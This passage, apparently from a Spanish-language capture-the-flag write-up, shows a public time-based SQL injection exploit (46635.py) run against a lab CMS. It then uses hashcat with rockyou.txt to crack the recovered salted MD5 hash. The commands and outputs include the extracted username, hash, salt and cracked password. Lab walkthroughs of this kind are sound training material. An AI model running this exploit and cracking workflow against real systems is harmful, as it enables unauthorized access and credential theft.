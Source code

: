 Ejecutamos el exploit con el fin de visualizar los parámetros que debemos proporcionarle.

```bash
❯ python2 46635.py
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

En este caso, ejecutamos el exploit proporcionándole únicamente la URL, evitando así que realice automáticamente el proceso de cracking. En su lugar, realizaremos manualmente el proceso de cracking utilizando la herramienta `hashcat`.

```bash
python2 46635.py -u http://10.10.71.52/simple/
```

Después de esperar unos minutos, logramos obtener el salt utilizado para la contraseña, el nombre de usuario, la dirección de correo electrónico y la contraseña hasheada en formato `MD5`.

```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

Posteriormente, procedemos a crackear la contraseña proporcionando el hash y el salt utilizando el siguiente comando:

```bash
PS C:\Users\juanr\OneDrive\Documentos\Hashcat\hashcat-6.2.6> .\hashcat.exe -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 .\rockyou.txt
hashcat (v6.2.6) starting

Successfully initialized the NVIDIA main driver CUDA runtime library.

[...]

Dictionary cache hit:
* Filename..: .\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
Time.Started.....: Mon May 22 00:18:53 2023 (0 secs)
Time.Estimated...: Mon May 22 00:18:53 2023 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (.\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  7994.9 kH/s (2.17ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Speed.#2.........:        0 H/s (0.00ms) @ Accel:512 Loops:1 Thr:64 Vec:1
Speed.#*.........:  7994.9 kH/s
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 524296/14344385 (3.66%)
Rejected.........: 8/524296 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
```